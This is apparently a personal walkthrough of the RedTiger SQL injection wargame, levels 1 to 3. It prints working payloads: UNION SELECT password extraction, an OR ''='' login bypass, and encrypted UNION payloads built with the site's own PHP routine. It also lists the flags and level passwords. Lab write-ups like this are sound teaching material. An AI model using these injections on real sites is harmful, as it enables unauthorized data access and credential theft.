 ## Level 1

**URL:** https://redtiger.labs.overthewire.org/level1.php
**Target:** Get the login for the user Hornoxe
**Tablename:** level1_users

<img src="C:\Users\royo\AppData\Roaming\Typora\typora-user-images\image-20200502022328468.png" alt="image-20200502022328468" style="border:1px solid black;" />



Clicking on category 1 sent the value 1 to parameter "cat", and presented additional text. This might indicate a potential SQLi attack.

<img src="C:\Users\royo\AppData\Roaming\Typora\typora-user-images\image-20200502022636412.png" alt="image-20200502022636412" style="border:1px solid black;" />

<center> ?cat=1



I figured that the SQL query might look similar to this, where `[cat]` can be defined by me:

```sql
SELECT ?,?,... 
FROM ... 
WHERE cat=[cat] ... ;
```

I decided to use the `UNION` function to plot the requested password. For that to work, I wanted to bring the query to the following form:

```sql
SELECT ?,?,... 
FROM ... 
WHERE cat=1 
UNION 
SELECT password 
FROM level1_users; -- ...
```

I set `[cat]` to be `1 UNION SELECT password FROM level1_users; --` (adding "; -- " to make sure the rest of the query is ignored in case it exists).

The problem was I did not know how many columns the table has. I started adding columns to the selection until I reached the right number (4):

<img src="C:\Users\royo\AppData\Roaming\Typora\typora-user-images\image-20200502023938850.png" alt="image-20200502023938850" style="border:1px solid black;" />

<center>?cat=1%20UNION%20SELECT%20password,2,3,4%20FROM%20level1_users;%20--



I could tell that columns 3 and 4 are presented to the user, so I made sure the column "password" is selected third:

<img src="C:\Users\royo\AppData\Roaming\Typora\typora-user-images\image-20200502024312259.png" alt="image-20200502024312259" style="border:1px solid black;" />

<center> cat=1%20UNION%20SELECT%201,2,password,4%20FROM%20level1_users;%20



And there it was! I used the password (**thatwaseasy**) to receive the flag (**27cbddc803ecde822d87a7e8639f9315**) and the password for Level 2 (**passwords_will_change_over_time_let_us_do_a_shitty_rhyme**):

<img src="C:\Users\royo\AppData\Roaming\Typora\typora-user-images\image-20200502024653899.png" alt="image-20200502024653899" style="border:1px solid black;" />



## Level 2

**URL:** https://redtiger.labs.overthewire.org/level2.php
**Target:** Login
**Hint:** Condition

<img src="C:\Users\royo\AppData\Roaming\Typora\typora-user-images\image-20200502025042081.png" alt="image-20200502025042081" style="border: 1px solid black;" />



The general SQL query I assumed, where `[username]` and `[password]` can be defined by me:

```sql
SELECT ?,?,... 
FROM table_name 
WHERE (username='[username]') AND (password='[password]');
```

I decided to try and get the query to look like that:

```sql
SELECT ?,?,... 
FROM table_name 
WHERE (username='' OR ''='') AND (password='' OR ''='');
```

That way, since `''=''` is always `TRUE`, the table will not be empty.

For that to happen, I set `[username] = [password] = ' OR ''='`.

<img src="C:\Users\royo\AppData\Roaming\Typora\typora-user-images\image-20200502030344385.png" alt="image-20200502030344385" style="border:1px solid black;" />



It worked!  I received the flag (**1222e2d4ad5da677efb188550528bfaa**) and the password for Level 3 (**feed_the_cat_who_eats_your_bread**):

<img src="C:\Users\royo\AppData\Roaming\Typora\typora-user-images\image-20200502030404417.png" alt="image-20200502030404417" style="border:1px solid black;" />



## Level 3

**URL:** https://redtiger.labs.overthewire.org/level3.php
**Target:** Get the password of the user Admin.
**Hint:** Try to get an error. Tablename: level3_users

<img src="C:\Users\royo\AppData\Roaming\Typora\typora-user-images\image-20200502030709145.png" alt="image-20200502030709145" style="border:1px solid black;" />



Clicking on "Admin" sent to the parameter "usr" what seems to be a base64 encoded identifier. It also presented additional details:

<img src="C:\Users\royo\AppData\Roaming\Typora\typora-user-images\image-20200502030936640.png" alt="image-20200502030936640" style="border:1px solid black;" />

<center> ?usr=MDQyMjExMDE0MTgyMTQw



I decoded the string (**MDQyMjExMDE0MTgyMTQw**) using [CyberChef](https://gchq.github.io/CyberChef) and received random digits (**042211014182140**).

At that point I tried encoding different SQL instructions into base64 and send them as a parameter, but got no results.

I followed the hint given ("Try to get an error"), and after several tries received an error by sending an array as a parameter:

<img src="C:\Users\royo\AppData\Roaming\Typora\typora-user-images\image-20200502031645737.png" alt="image-20200502031645737" style="border:1px solid black;" />

<center>  ?usr[]=MDYzMjIzMDA2MTU2MTQxMjU0



The server seemed to run the following PHP file (https://redtiger.labs.overthewire.org/urlcrypt.inc) to handle the encryption:

```php
<?php
	// warning! ugly code ahead :)
	// requires php5.x, sorry for that
	function encrypt($str)
	{
		$cryptedstr = "";
		srand(3284724);
		for ($i =0; $i < strlen($str); $i++)
		{
			$temp = ord(substr($str,$i,1)) ^ rand(0, 255);
			while(strlen($temp)<3)
			{
				$temp = "0".$temp;
			}
			$cryptedstr .= $temp. "";
		}
		return base64_encode($cryptedstr);
	}
	function decrypt ($str)
	{
		srand(3284724);
		if(preg_match('%^[a-zA-Z0-9/+]*={0,2}$%',$str))
		{
			$str = base64_decode($str);
			if ($str != "" && $str != null && $str != false)
			{
				$decStr = "";
				for ($i=0; $i < strlen($str); $i+=3)
				{
					$array[$i/3] = substr($str,$i,3);
				}
				foreach($array as $s)
				{
					$a = $s ^ rand(0, 255);
					$decStr .= chr($a);
				}
				return $decStr;
			}
			return false;
		}
		return false;
	}
?>
```

I copied the code to [writephponline.com](http://www.writephponline.com/) to easily run it online. I added the following line to the end of the code to decode the admin's hashed string:

```php
echo decrypt("MDQyMjExMDE0MTgyMTQw");
```

I ran the code and received the following output: `�(D��`. I noticed the comment saying that it requires php5.x, and then used [phptester.net](http://phptester.net/) to run the same code on php5.5. I received the following decrypted output: `Admin`

Now that I knew I have the right functions, I used them to to encrypt the payload:

```php
echo encrypt("' union select 1 from level3_users where Username='Admin' --");
```

I copied the encrypted output to into the URL and got an error:

<img src="C:\Users\royo\AppData\Roaming\Typora\typora-user-images\image-20200502033411449.png" alt="image-20200502033411449" style="border:1px solid black;" />

<center>?usr=MDc2MTUxMDIyMTc3MTM5MjMwMTQ1MDI0MjA5MTAwMTc3MTUzMDc0MTg3MDk1M
Dg0MjU1MDA3MjM5MDA1MDk2MjAzMTc5MTQ2MDE4MTkxMTk0MjA3MjE4MDU3MTk4MTQ
5MTE4MTA3MjQwMTQ1MjAyMTcwMTA4MDMzMjQwMTY5MDUwMTU5MTkwMTc0MDAxMTk4M
DcxMTk1MDQ5MTEzMTQyMTU1MDY1MDMyMjQ3MjQ3MTAzMTIzMDAz



I kept adding columns to the query, encrypting the string and sending it. I got the same error until I reached 7 columns:

<img src="C:\Users\royo\AppData\Roaming\Typora\typora-user-images\image-20200502033751287.png" alt="image-20200502033751287" style="border:1px solid black;" />

<center> ?usr=MDc2MTUxMDIyMTc3MTM5MjMwMTQ1MDI0MjA5MTAwMTc3MTUzMDc0MT
g3MDk1MDg0MjQzMDgzMTc3MDg5MDMzMjIzMjQzMTk0MDcyMjM2MTMwMjAzMTY1MDQyMT
k5MTU5MTA1MDU2MTg4MTMxMjEyMTcwMTE0MTE5MTQzMTM3MDUwMTU5MTkwMTc5MDY0Mj
IwMDc0MTU1MTAwMDg1MjAyMTYzMDkxMDQzMTYyMTg1MDQzMDU5MDcwMTk0MDk2MTAyMT
I0MTIyMTAzMjEzMTkyMDEzMjEwMTQ5MDEw   
</center>



To plot the password I changed column 2 to `password`, encrypted the payload and sent it:

```php
echo encrypt("' union select 1,password,3,4,5,6,7 from level3_users where Username='Admin' --");
```

<img src="C:\Users\royo\AppData\Roaming\Typora\typora-user-images\image-20200502034023838.png" alt="image-20200502034023838" style="border:1px solid black;" />

<center> ?usr=MDc2MTUxMDIyMTc3MTM5MjMwMTQ1MDI0MjA5MTAwMTc3MTUzMDc0
MTg3MDk1MDg0MjQzMDE3MjUyMDI1MTI2MTU2MTc2MTMzMDAwMjQ2MTU3MjA
4MTc3MDk2MTI4MjIwMDUwMDUyMjMxMTk4MTk2MTg5MTEzMDQxMjQwMTQ0MD
M2MTQwMTY5MTcyMDgzMjQ0MDg3MTQxMTE1MDY2MTUzMjE0MDk1MDM4MTgxM
TY1MDQ3MTE4MTE4MTQwMDM0MDg1MTE4MTE4MDk5MjIyMjE4MDEwMTkwMjIw
MDcxMDQwMjIwMjA5MDM0MDYyMTQzMDA1
</center>



It worked! I used the password (**thisisaverysecurepasswordEEE5rt**) to receive the flag (**a707b245a60d570d25a0449c2a516eca**) and the password for Level 4 (**put_the_kitten_on_your_head**):

<img src="C:\Users\royo\AppData\Roaming\Typora\typora-user-images\image-20200502034148671.png" alt="image-20200502034148671" style="border:1px solid black;" />
